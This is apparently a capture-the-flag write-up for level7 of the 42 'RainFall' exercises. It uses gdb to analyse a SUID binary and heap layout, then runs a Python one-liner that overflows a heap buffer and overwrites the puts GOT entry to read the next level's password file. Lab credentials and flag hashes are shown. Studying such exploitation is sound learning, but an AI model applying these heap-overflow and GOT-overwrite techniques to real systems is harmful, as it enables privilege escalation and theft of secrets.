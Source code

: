Login as `level7`.
```shell
┌──$ [~/42/2021/rainfall]
└─>  ssh 192.168.0.19 -p 4242 -l level7
level7@192.168.0.19's password: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
A `SUID` executable is located in the home directory.
```shell
level7@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level8 users 5648 Mar  9  2016 level7
```
```gdb
(gdb) info functions
[...]
0x080484f4  m
0x08048521  main
[...]
```
Examing binary with GDB shows that inside `main()` function it opens `/home/user/level8/.pass` file, then reads 68 bytes from the given stream and stores them in the string `c` defined as global variable.
On the other hand the content of `c` variable is printed inside `m()` function.

Function `m()` can be called inside GDB simply by changing `EIP` register pointing to start of `m()` function.
```gdb
(gdb) break *main+202
Breakpoint 1 at 0x80485eb
(gdb) run AAAA BBBB
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 1, 0x080485eb in main ()
(gdb) print $eip
$1 = (void (*)()) 0x80485eb <main+202>
(gdb) set $eip=0x080484f4
(gdb) continue
Continuing.
 - 1630930163

Program received signal SIGSEGV, Segmentation fault.
0x08049960 in c ()
```




0x0804a008 -> $esp+0x1c == str1
```gdb
(gdb) x/16x 0x0804a008

			            fnPtr
            str1[0]     str1[1]     str1[2]     str1[3]
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
            str1[4]     str1[5]     str1[6]     str1[7]
0x804a018:	0x41414141	0x41414141	0x41414141	0x00000000
			            fnPtr
            str2[0]     str2[1]     str2[2]     str2[3]
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
            str2[4]     str2[5]     str2[6]     str2[7]
0x804a038:	0x42424242	0x42424242	0x00000000	0x00020fc
```

Try to overwrite GOT entry of `fgets()` function
```gdb
(gdb) info functions
[...]
0x080484f4  m
[...]
(gdb) disassemble main
[...]
(gdb) break *0x080485eb
Breakpoint 1 at 0x80485eb
(gdb) run AAAA BBBB
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 1, 0x080485eb in main ()
(gdb) x/i $eip
=> 0x80485eb <main+202>:	call   0x80483c0 <fgets@plt>
(gdb) disassemble 0x80483c0
Dump of assembler code for function fgets@plt:
   0x080483c0 <+0>:	jmp    *0x8049918
   0x080483c6 <+6>:	push   $0x8
   0x080483cb <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb) x/wx 0x8049918						# Check referencing address
0x8049918 <fgets@got.plt>:	0x080483c6 
(gdb) set *0x8049918=0x080484f4				# Change value of address pointing from `fgets()` to `m()`
(gdb) x/wx 0x8049918						# Address of GOT entry successfully changed
0x8049918 <fgets@got.plt>:	0x080484f4
(gdb) continue								# Execution of `m()`
Continuing.
 - 1633277327
~~
[Inferior 1 (process 2678) exited normally]
```


Break on each functions call and execute first malloc instruction to gead heap addresses.
```gdb
(gdb) break *main+16
Breakpoint 1 at 0x8048531
(gdb) break *main+42
Breakpoint 2 at 0x804854b
(gdb) break *main+63
Breakpoint 3 at 0x8048560
(gdb) break *main+89
Breakpoint 4 at 0x804857a
(gdb) break *main+127
Breakpoint 5 at 0x80485a0
(gdb) break *main+156
Breakpoint 6 at 0x80485bd
(gdb) break *main+178
Breakpoint 7 at 0x80485d3
(gdb) break *main+202
Breakpoint 8 at 0x80485eb
(gdb) break *main+214
Breakpoint 9 at 0x80485f7
(gdb) disassemble 0x8048400
(gdb) run AAAA BBBB
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 1, 0x08048531 in main ()
(gdb) next
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x0804854b in main ()
(gdb) info proc mapping
process 2694
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level7/level7
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level7/level7
	 0x804a000  0x806b000    0x21000        0x0 [heap]
	0xb7e2b000 0xb7e2c000     0x1000        0x0
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0
	0xb7fdb000 0xb7fdd000     0x2000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

To examine the heap, define a hook-stop, to execute commands every time execution stops in program: before breakpoint commands are run, displays are printed, or the stack frame is printed. 
```gdb
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/32wx 0x804a000
>end
(gdb) continue
[...]
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
#                                   str1[0]=1    str1[1]=malloc(8)
0x804a010:	0x00000000	0x00000011	0x41414141	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
#                                   str2[0]=2    str2[1]=malloc(8)
0x804a030:	0x00000000	0x00000011	0x42424242	0x00000000
0x804a040:	0x00000000	0x00020fc1	0xfbad240c	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0xb7fd1980
0xb7e90ba7 in fgets () from /lib/i386-linux-gnu/libc.so.6
0xb7e90ba7 in fgets () from /lib/i386-linux-gnu/libc.so.6
(gdb) backtrace
#0  0xb7e90ba7 in fgets () from /lib/i386-linux-gnu/libc.so.6
#1  0x080485f0 in main ()
(gdb) continue
Continuing.

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
0x804a000:	Error while running hook_stop:
Cannot access memory at address 0x804a000
```

If `av[0]` is enough large, it can overwrite address containing in `str2[1]` so that while copying content of `av[2]` it overwrite GOT content.
```gdb
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   0x08048406 <+6>:	push   $0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x08048406k
(gdb) quit
level7@RainFall:~$ ./level7 $(python -c "import struct; print 'AAAA'*5 + struct.pack('I', 0x8049928)") $(python -c "import struct; print struct.pack('I', 0x80484f4)")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1634572244
 ```
